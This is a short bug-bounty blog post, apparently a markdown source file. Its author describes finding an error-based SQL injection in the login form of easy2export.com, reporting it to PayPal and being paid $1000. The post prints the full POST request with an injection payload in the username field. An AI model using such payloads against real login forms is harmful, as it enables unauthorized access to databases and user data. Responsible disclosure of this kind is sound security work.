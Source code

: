 ```yaml
---
layout: post
title: "sqli in paypal partner"
date: 2014-11-22T07:14:07-05:00
description: "error based sql injection in easy2export.com"
---
```


It’s been a year after my website ‘jeroldcamacho.com’ was gone because I forgot to renew my domain and I don’t even have a backup of my website nor my blog posts. As the title says “how i got my 1000$ from paypal partner site.”. So, here it goes.

**Easy2Export** is one of paypal partner website, yeah it is! [[..]](http://www.ecommercebytes.com/cab/abn/y13/m12/i24/s04)

<p align="center">
<img src="/assets/images/yeah-m.jpg">
</p>

<br>
At first, i tried to break the login form. After a few minutes of testing, I foundout that the login form is vulnerable to POST SQL Injection.

```
http://easy2export.com/index.php/site/login

POST /index.php/site/login HTTP/1.1
Host: easy2export.com
…
LoginForm[username]=’ or 1 group by concat_ws(0x3a,user(),floor(rand(0)*2)) having min(0) or 1–+&LoginForm[password]=’&LoginForm[accounttype]=sub&LoginForm[rememberMe]=0&yt0=
```
<br>
<p align="center">
<img src="/assets/images/easy2export-sql-injection1.png">
</p>
<br>
I immediately reported this to PayPal and they fixed the vulnerability issue quickly. **[10/30/2014 09:21:53]**
<br>
<p align="center">
<img src="/assets/images/inhale-m.jpg">
</p>
<br>
In their bug bounty program guidelines, it is noted that sql injection in paypal partner sites will receive 1000$.
.
.
And they checked the eligibility of my report so they then send me the reward amounting to 1000$. **[11/22/14 6:23:35]**
<p align="center">
<img src="/assets/images/paypal-bounty.png">
</p>

Thanks for reading! stay tuned for more blog posts.

